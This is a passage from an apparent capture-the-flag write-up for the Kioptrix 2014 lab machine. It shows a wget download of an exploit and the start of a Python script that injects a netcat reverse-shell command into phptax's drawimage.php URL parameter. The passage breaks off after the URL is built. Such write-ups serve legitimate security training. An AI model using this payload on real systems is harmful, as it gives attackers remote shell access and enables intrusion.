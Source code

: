 ![](/assets/images/kioptrix2014/screenshot-6.png)


### Remote Code Execution 

Googling I found that phptax is vulnerable to remote code execution, we downloaded the exploit to analyze the proof of concept.

```bash
root@kali:~$ wget https://www.exploit-db.com/download/21665
```

To exploit it, I developed a python script that replicates the exploitation process and gets a shell automatically.

```python
#!/usr/bin/env python3

import urllib3
import threading
import os
import time
import sys

if len(sys.argv) != 4:
    print("Usage: {} [RHOST] [LHOST] [LPORT]".format(sys.argv[0]))
    sys.exit(0)

rhost = sys.argv[1]
lhost = sys.argv[2]
lport = sys.argv[3]
payload = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i |nc {} {} > /tmp/f".format(lhost, lport)
url = "http://{}:8080/phptax/drawimage.php?pfilez=xxx;{};&pdf=make".format(rhost, payload)
```